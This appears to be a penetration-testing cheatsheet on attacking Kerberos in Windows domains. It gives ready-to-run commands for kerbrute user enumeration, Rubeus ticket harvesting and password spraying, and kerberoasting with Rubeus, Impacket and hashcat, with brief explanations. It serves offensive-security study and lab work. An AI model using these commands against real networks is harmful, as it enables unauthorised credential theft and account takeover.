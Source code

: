 #cheatsheet #methodology 
# Attacking Kerberos

## Enumerating Users w/ Kerbrute
`/path/to/kerbrute userenum --dc DOMAIN-CONTROLLER -d DOMAIN User.txt`

## Harvesting & Brute-Forcing Tickets w/ Rubeus
### Harvesting Tickets
*On the victim machine, download [https://github.com/GhostPack/Rubeus](Rubeus.exe). Then harvest tickets as follows:*
`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

### Brute-Forcing/Password-Spraying
*When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.*

*This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.*

*Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:*
`echo MACHINE_IP DOMAIN_NAME >> C:\Windows\System32\drivers\etc\hosts`

*Then spray passwords using:*
`Rubeus.exe brute /password:mypassword /noticket`

## Kerberoasting
*Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account.*

### w/ Rubeus
`Rubeus.exe kerberoast` - This will dump the Kerberos hash of any kerberoastable users

*Now crack the hash using Hashcat:*
`hashcat -m 13100 -a 0 hash.txt /path/to/wordlist`

### w/ Impacket
*First install Impacket (preferably version < 0.9.20) using pip, the find the GetUserSPNs.py by:*
`locate GetUserSPNs.py`

*Now cd into this dir and run:*
`sudo python3 GetUserSPNs.py DOMAIN/USER:Password1 -dc-ip MACHINE_IP -request` - This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
